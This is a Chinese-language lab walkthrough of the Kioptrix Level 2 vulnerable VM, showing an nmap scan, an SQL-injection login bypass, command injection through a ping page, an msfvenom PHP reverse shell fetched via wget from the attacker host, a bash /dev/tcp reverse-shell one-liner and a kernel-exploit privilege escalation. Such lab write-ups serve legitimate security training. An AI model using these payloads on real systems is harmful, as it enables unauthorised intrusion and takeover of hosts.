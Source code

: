```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 KIOPTRIX:LEVEL 2 Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2022-03-22
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public
---
```




## 0x01 扫描

目标IP: 192.168.56.105

nmap扫描

```bash
─$ nmap -T5 -A -v -p- 192.168.56.105
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 02:14 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 02:14
Completed NSE at 02:14, 0.00s elapsed
Initiating NSE at 02:14
Completed NSE at 02:14, 0.00s elapsed
Initiating NSE at 02:14
Completed NSE at 02:14, 0.00s elapsed
Initiating Ping Scan at 02:14
Scanning 192.168.56.105 [2 ports]
Completed Ping Scan at 02:14, 0.00s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating Connect Scan at 02:14
Scanning 192.168.56.105 [65535 ports]
Discovered open port 111/tcp on 192.168.56.105
Discovered open port 80/tcp on 192.168.56.105
Discovered open port 443/tcp on 192.168.56.105
Discovered open port 3306/tcp on 192.168.56.105
Discovered open port 22/tcp on 192.168.56.105
Discovered open port 631/tcp on 192.168.56.105
Discovered open port 676/tcp on 192.168.56.105
Completed Connect Scan at 02:14, 1.95s elapsed (65535 total ports)
Initiating Service scan at 02:14
Scanning 7 services on 192.168.56.105
Completed Service scan at 02:14, 12.02s elapsed (7 services on 1 host)
NSE: Script scanning 192.168.56.105.
Initiating NSE at 02:14
Completed NSE at 02:14, 0.77s elapsed
Initiating NSE at 02:14
Completed NSE at 02:14, 1.15s elapsed
Initiating NSE at 02:14
Completed NSE at 02:14, 0.00s elapsed
Nmap scan report for 192.168.56.105
Host is up (0.0069s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            673/udp   status
|_  100024  1            676/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de 29f9 fbfb 2eb2 beaf e624 3157 090f
|_SHA-1: 560c 9196 6506 fb0f fb81 66b1 ded3 ac11 2ed4 808a
|_http-server-header: Apache/2.0.52 (CentOS)
|_ssl-date: 2022-03-21T18:14:39+00:00; +11h59m58s from scanner time.
631/tcp  open  ipp      CUPS 1.1
|_http-title: 403 Forbidden
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
676/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)

Host script results:
|_clock-skew: 11h59m57s

NSE: Script Post-scanning.
Initiating NSE at 02:14
Completed NSE at 02:14, 0.00s elapsed
Initiating NSE at 02:14
Completed NSE at 02:14, 0.00s elapsed
Initiating NSE at 02:14
Completed NSE at 02:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.19 seconds

```

## 0x02 方法一

发现http，浏览器访问

![image-20220321152724123](/assets/img/image-20220421171529469.png)

使用admin，万能密码`' or 1=1#`登录成功，发现是个ping功能页面，尝试命令注入

![image-20220421171539968](/assets/img/image-20220421171539968.png)

根据结果发现id被执行，存在命令注入漏洞

![image-20220421171546679](/assets/img/image-20220421171546679.png)

![image-20220421171552505](/assets/img/image-20220421171552505.png)

根据服务器使用php，准备回弹shell，使用msfvenom，生成php反弹shell

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=4444 -f raw > /home/kali/shell.php
```

使用msf监听回弹端口

![image-20220421171601683](/assets/img/image-20220421171601683.png)

命令注入页面提交`127.0.0.1;cd /tmp;wget http://192.168.56.102:8090/shell.php` 传输php反弹shell

再提交；`cd /tmp && php -f shell.php`,反弹成功，获得shell

![image-20220421171608325](/assets/img/image-20220421171608325.png)

查看Linux内核版本

![image-20220421171613148](/assets/img/image-20220421171613148.png)

![image-20220421171617723](/assets/img/image-20220421171617723.png)

搜索版本对应exp

![image-20220421171638016](/assets/img/image-20220421171638016.png)

尝试9545.c，提权成功

![image-20220421171642095](/assets/img/image-20220421171642095.png)

## 0x03 方法二

命令注入页面输入localhost; bash -i >& /dev/tcp/192.168.56.102/4444 0>&1

攻击机使用nc -nlvp 4444监听

回弹shell
